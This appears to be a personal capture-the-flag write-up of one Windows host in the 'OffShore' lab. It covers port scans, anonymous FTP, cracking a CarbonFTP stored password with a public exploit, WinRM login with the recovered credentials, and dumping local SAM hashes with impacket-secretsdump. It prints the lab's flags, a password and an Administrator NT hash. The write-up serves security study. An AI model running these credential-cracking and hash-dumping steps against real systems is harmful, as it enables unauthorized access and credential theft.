As usual we can start by using RUSTSCAN to check all the services alive on the TCP protocoll.

```
PORT      STATE SERVICE       REASON         VERSION
21/tcp    open  ftp           syn-ack ttl 64 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 10-18-20  01:57PM       <DIR>          .dbus-keyrings
| 10-11-20  07:01PM       <DIR>          .vscode
| 10-10-20  10:13PM       <DIR>          3D Objects
| 10-10-20  10:13PM       <DIR>          Contacts
| 08-01-22  10:05PM       <DIR>          Desktop
| 10-18-20  01:57PM       <DIR>          Documents
| 04-17-21  10:03AM       <DIR>          Downloads
| 10-10-20  10:13PM       <DIR>          Favorites
| 10-10-20  10:13PM       <DIR>          Links
| 10-24-20  10:42AM       <DIR>          Music
| 10-22-20  05:31AM       <DIR>          OneDrive
| 10-11-20  06:52PM       <DIR>          Pictures
| 10-10-20  10:13PM       <DIR>          Saved Games
| 10-10-20  10:15PM       <DIR>          Searches
|_10-16-20  05:31PM       <DIR>          Videos
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          syn-ack ttl 64 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 64
5800/tcp  open  http-proxy    syn-ack ttl 64 sslstrip
|_http-title: TightVNC desktop [joe-lptp]
| http-methods: 
|_  Supported Methods: GET
5900/tcp  open  vnc           syn-ack ttl 64 VNC (protocol 3.8)
| vnc-info: 
|   Protocol version: 3.8
|   Security types: 
|     VNC Authentication (2)
|     Tight (16)
|   Tight auth subtypes: 
|_    STDV VNCAUTH_ (2)
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 1.12.X (85%)
OS CPE: cpe:/o:ibm:zos:1.12
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: IBM z/OS 1.12 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=7/1%OT=21%CT=%CU=%PV=Y%G=N%TM=66828CA3%P=x86_64-pc-linux-gnu)
SEQ(SP=104%GCD=1%ISR=10B%TI=I%CI=RD%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 34.902 days (since Mon May 27 15:23:27 2024)
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

And do the same on the first 1k(ish) ports alive on the UDP protocoll via NMAP this time.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# nmap -F -sU 172.16.1.201
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 12:20 CEST
Nmap scan report for 172.16.1.201
Host is up (0.0075s latency).
Not shown: 99 open|filtered udp ports (no-response)
PORT    STATE SERVICE
137/udp open  netbios-ns

Nmap done: 1 IP address (1 host up) scanned in 18.50 seconds
```

Now we can move on to manual enumerations...

# FTP

It is clear that we can surf this map as anonymous user.



We can see a first flag on this machine, supposedly this should be the home folder of the user named Joe?

But we can first read and submit another flag:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/CVE-2020-1472]
└─# cat flag.txt         
OFFSHORE{st0p_us1ng_fr33warez!}
```

But I see also a strange .cbt file? Might be some kind of StickyNotes or similar?  


The file seems like a SQLite database?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/CVE-2020-1472]
└─# file infra_testing.ctb 
infra_testing.ctb: SQLite 3.x database, last written using SQLite version 3033000, file counter 9, database pages 10, cookie 0x6, schema 4, UTF-8, version-valid-for 9
```

We can use the command `strings` to parse all the cleartext files so far:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/CVE-2020-1472]
└─# strings infra_testing.ctb                     
SQLite format 3
tablebookmarkbookmark	CREATE TABLE bookmark (node_id INTEGER UNIQUE,sequence INTEGER)/	
indexsqlite_autoindex_bookmark_1bookmark
/tablechildrenchildren
CREATE TABLE children (node_id INTEGER UNIQUE,father_id INTEGER,sequence INTEGER)/
indexsqlite_autoindex_children_1children
tableimageimage
CREATE TABLE image (node_id INTEGER,offset INTEGER,justification TEXT,anchor TEXT,png BLOB,filename TEXT,link TEXT,time INTEGER)
itablegridgrid
CREATE TABLE grid (node_id INTEGER,offset INTEGER,justification TEXT,txt TEXT,col_min INTEGER,col_max INTEGER)
tablecodeboxcodebox
CREATE TABLE codebox (node_id INTEGER,offset INTEGER,justification TEXT,txt TEXT,syntax TEXT,width INTEGER,height INTEGER,is_width_pix INTEGER,do_highl_bra INTEGER,do_show_linenum INTEGER)
Qtablenodenode
CREATE TABLE node (node_id INTEGER UNIQUE,name TEXT,txt TEXT,syntax TEXT,tags TEXT,is_ro INTEGER,is_richtxt INTEGER,has_codebox INTEGER,has_table INTEGER,has_image INTEGER,level INTEGER,ts_creation INTEGER,ts_lastsave INTEGER)'
indexsqlite_autoindex_node_1node
Internal testing<?xml version="1.0" encoding="UTF-8"?>
<node><rich_text>-Widespread exploitation of CVE-2020-1472 in the wild
-Server team unaware of the effects of immediately patching DCs in CORP, DEV, ADMIN, CLIENT - concerns with rushing an unknown patch
-Todd sent this article around: </rich_text><rich_text link="webs https://www.lares.com/blog/from-lares-labs-defensive-guidance-for-zerologon-cve-2020-1472/">https://www.lares.com/blog/from-lares-labs-defensive-guidance-for-zerologon-cve-2020-1472/</rich_text><rich_text>
    -Attack generates event code 5805, 4624, and 4742. Is responding to one of these events enough to prevent exploitation while we further test the patch?
    -What effects will running this have to combat successful exploitation? </rich_text><rich_text link="webs https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/reset-computermachinepassword?view=powershell-5.1">https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/reset-computermachinepassword?view=powershell-5.1</rich_text><rich_text> 
-Mitigation </rich_text><rich_text style="italic">seems</rich_text><rich_text> to work for now
-Installed patch on SRV01
-Higher ups decided to push an emergency patch to all 4 DCs...
-Need to decommission domain before the auditors come in </rich_text></node>
custom-colors_
```

But it is clear that all the DCs have been patched torwards the "ZeroLogon" bug.

&nbsp;

# Back on track

Here I tried to check the pcap data but nothing juicy seems hidden in there:



So I got a tips to check again that anonymous ftp share there is more in there. Specifically the icon on the user folder should give us a hint:



Specifically about this bug: https://www.exploit-db.com/exploits/48363



If this is true...

```
229 Entering Extended Passive Mode (|||55461|)
125 Data connection already open; Transfer starting.
10-11-20  09:12PM                   39 flag.txt
10-11-20  09:25PM                  440 FNJVN5SA.CFTP
226 Transfer complete.
ftp>
```

We have another flag and some credentials?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/corp.local]
└─# cat flag.txt   
OFFSHORE{An0N_FtP_c@n_rev3al_tr3asUre$}
```

Now the setting I guess we can export the password?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/corp.local]
└─# cat FNJVN5SA.CFTP
[Root]
Caption=STRING|"Joe_IIS"
Exact=INTEGER|0
ExcludeMasks=STRING|""
IncludeMasks=STRING|"*.*"
LocalFolder=STRING|"C:\inetpub"
Passive=INTEGER|0
Password=STRING|"19852327402859129171335082736410993"
Port=INTEGER|21
ProxyKind=INTEGER|0
ProxyPort=INTEGER|21
ProxyServer=STRING|""
RemoteFolder=STRING|"/"
Server=STRING|"ftp.offshore.local"
SubFilders=INTEGER|0
SyncMode=INTEGER|2
UseProxy=INTEGER|0
UserName=STRING|"joe"
```

Sure seems like some good credentials hehe.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# python3 48363.py -p '19852327402859129171335082736410993'         
[+] Neowise CarbonFTP v1.4
[+] CVE-2020-6857 Insecure Proprietary Password Encryption
[+] Version 2 Exploit fixed for Python 3 compatibility
[+] Discovered and cracked by hyp3rlinx
[+] ApparitionSec

 Decrypting ... 

[-] 19852
[-] 32740
[-] 28591
[-] 29171
[-] 33508
[-] 27364
[-] 10993
[+] PASSWORD LENGTH: 13
[*] DECRYPTED PASSWORD: Dev0ftheyear!
```

I tried them on FTP but it is not working so I guess it will be via ftp? But I was wrong WINRM is the way to go:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# NetExec winrm 172.16.1.201 -u 'joe' -p 'Dev0ftheyear!'         
WINRM       172.16.1.201    5985   JOE-LPTP         [*] Windows 10 / Server 2019 Build 19041 (name:JOE-LPTP) (domain:JOE-LPTP)
WINRM       172.16.1.201    5985   JOE-LPTP         [+] JOE-LPTP\joe:Dev0ftheyear! (Pwn3d!)
```

Now we can't write on the ISS:



Checking on the installed SW i see TightVNC?

```
*Evil-WinRM* PS C:\Program Files> ls


    Directory: C:\Program Files


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        10/18/2020   1:17 PM                7-Zip
d-----        10/11/2020   6:53 PM                CherryTree
d-----        10/11/2020   6:55 PM                Common Files
d-----         12/7/2019   1:51 AM                Internet Explorer
d-----         4/17/2021  12:28 PM                Microsoft Update Health Tools
d-----         12/7/2019   1:14 AM                ModifiableWindowsApps
d-----        10/11/2020   7:06 PM                Reference Assemblies
d-----        10/24/2020   9:52 AM                TightVNC
d-----         4/20/2022   6:13 AM                VMware
d-----        10/11/2020   7:17 PM                Windows Defender
d-----        10/18/2020   2:00 PM                Windows Defender Advanced Threat Protection
d-----        10/11/2020   7:37 PM                Windows Mail
d-----        10/11/2020   7:37 PM                Windows Media Player
d-----         12/7/2019   1:54 AM                Windows Multimedia Platform
d-----         12/7/2019   1:50 AM                Windows NT
d-----        10/11/2020   7:37 PM                Windows Photo Viewer
d-----         12/7/2019   1:54 AM                Windows Portable Devices
d-----         12/7/2019   1:31 AM                Windows Security
d-----         12/7/2019   1:31 AM                WindowsPowerShell
```

&nbsp;

# The Next Morning

Here I totally missed but tips on the chat pointed to TightVNC and we know the service is active on the machine.

  
And testing we can see it works:



Again now we can see traces of his note that actually was created in cherry tree app?



I see a Winscp with version 5.17.7



Now despite there is a side CVE that affects putty and it is used by the application I don't see any saved connections which makes me wonder it we have to do something here. https://borncity.com/win/2024/04/18/kritische-putty-schwachstelle-cve-2024-31497-verrt-private-schlssel/

CarbonFTP is the version 1.4, and I see a side CVE that involves a LFI but not for the same version. https://www.exploit-db.com/exploits/40240



Now about the 7zip seems like there is a CVE that allows PE to system? https://github.com/kagancapar/CVE-2022-29072

And I remember seein a powershell script that kills the 7zimFM...



I wonder then if that is the way to go? Nonetheless the python is running as JOE so we can't use the apparently:



I will check that 7zip PE vector. Seems like the bypass happens I we drag a 7zip file over Help -> Content Area

But after several tried I was able to reproduce and spawn a shell but it is still as Joe: https://sourceforge.net/p/sevenzip/bugs/2337/



For this reason I guess we need to move on and apparently even VSCode have a exploit? https://github.com/microsoft/vscode/security/advisories/GHSA-r6q2-478f-5gmr

Is is state that the CVE is up to 1.81 so we are sure that this should work?


And googling this might be a good candidate? https://www.exploit-db.com/exploits/48231

&nbsp;

# Got help at the end

Here I was spoiled with the solution but basically on 7zip on joe user there is a network mapped share(probably via Administrator that's why I can see it via net use):



And this opens some backup images?

Specifically the disk2 contains a readable SAM file.



Now we just need to download those files locally:



```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/corp.local]
└─# impacket-secretsdump -system SYSTEM -security SECURITY -sam SAM LOCAL 
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] Target system bootKey: 0x8d1b3bcb293ec2bacf262ca05e9827c9
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:49a332d455162a446ead15763e45817e:::
